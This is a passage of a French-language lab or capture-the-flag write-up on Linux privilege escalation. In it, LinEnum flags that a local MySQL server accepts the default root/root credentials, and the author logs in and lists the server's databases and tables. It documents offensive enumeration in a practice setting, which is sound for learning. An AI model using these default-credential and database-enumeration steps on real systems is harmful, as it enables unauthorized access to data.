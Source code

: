 [LinEnum.sh](https://github.com/rebootuser/LinEnum) fera pour nous le gros du boulot.  

The MySQL way
-------------

```plain
[+] We can connect to the local MYSQL service with default root/root credentials!
mysqladmin  Ver 8.42 Distrib 5.7.26, for Linux on x86_64
Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Server version          5.7.26-0ubuntu0.18.04.1
Protocol version        10
Connection              Localhost via UNIX socket
UNIX socket             /var/run/mysqld/mysqld.sock
Uptime:                 44 min 0 sec

Threads: 1  Questions: 6  Slow queries: 0  Opens: 105  Flush tables: 1  Open tables: 98  Queries per second avg: 0.002
```

On peut utiliser ces credentials pour fouiller dans le base SQL :  

```plain
user6@osboxes:/var/www/html$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.7.26-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| user               |
+--------------------+
5 rows in set (0.05 sec)

mysql> use user;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_user |
+----------------+
| user_info      |
+----------------+
1 row in set (0.00 sec)

```